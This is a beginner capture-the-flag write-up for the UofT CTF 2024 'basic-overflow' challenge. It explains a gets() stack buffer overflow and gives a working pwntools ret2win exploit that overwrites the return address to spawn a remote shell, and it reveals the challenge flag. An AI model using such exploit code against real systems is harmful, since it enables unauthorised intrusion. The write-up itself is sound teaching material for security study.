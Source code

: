 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description: N/A
points: 100
solves: 316
tags: pwn ret2win buffer-overflow
date: 2024-1-15
comments: false
---
```


This challenge is simple.  

It just gets input, stores it to a buffer.  

It calls gets to read input, stores the read bytes to a buffer, then exits.  

What is gets, you ask? Well, it's time you read the manual, no?  

`man 3 gets`  

Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.  

Author: drec  
`nc 34.123.15.202 5000`  
[basic-overflow](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2024/basic-overflow)  

---

Since this challenge is so simple, this writeup is intended primarily for complete beginners to pwn!  

We're given an ELF binary file. It is essentially a Linux executable, similar to .exe for Windows. We can decompile this with Ghidra, a powerful reverse-engineering tool. Download it if you don't have it!  

In Ghidra, on the left sidebar, we can open the Functions folder to see what sort of functions this program contains. Most of it is irrelevant, as some functions used for program functionality are also listed. However, there are two unusual functions that seem to be user-created. `main` and `shell`.  

Clicking on each allows us to see their decompilation. Here's `main`:  

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```

Let's first examine main. The main function simply allocates 64 bytes for a character array, i.e. a string. It then calls gets() to receive user input for the variable. For people experienced with pwn, this is immediately a major red flag. gets() is vulnerable to buffer overflow. That is, it can receive more input than it should. So, even though only 64 bytes are allocated for the character array, the program could read in more than 64 bytes into the variable!  

Since the variable is located on the stack, which is essentially an area of the program's memory where variables and things like that are stored, it will *overflow* onto the stack, overwriting the memory of the program. Crucially, the return address is stored on the stack.  

The return address is essentially the location in the program that main() will return to after finishing and hitting the `return` statement. This is important, because if we can overwrite this return address, we can control what function main() executes next!  

Now let's take a look at shell.

```c
void shell(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

All this does is pop a shell.  

So, this is a standard ret2win challenge where we must override the return address with the address of the win function to get a shell. We can easily do this with pwntools:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./basic-overflow")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./basic-overflow')
# gdb.attach(p)

p = remote('34.123.15.202', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'])
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Ignore the top half -- it's all just setup.  

In the bottom half, there is first a commented out line of a 'cyclic(1024)'. All this does is send a string to the program that enables us to find the offset of the return address. We know what the return address becomes (after it is opened in gdb with `gdb.attach(p)`) by entering 'continue' and looking at the RSP register, i.e. the stack pointer, which shows that it is the string `saaa` in the cyclic.  

Thus, our offset can be found using pwntool's `cyclic_find()` function. The address of the shell function can be found in the ELF's symbols, and our payload can be contructed as `offset*b'A' + shell`. Note that the address of the shell function must be 'packed' into little endian and x64 format. I would recommend Googling those two if you are unaware of what they are.  

Once we have our payload, we can send it to the remote service, pop a shell, and `ls` --> `cat flag` gives us our flag!  

    uoftctf{reading_manuals_is_very_fun}
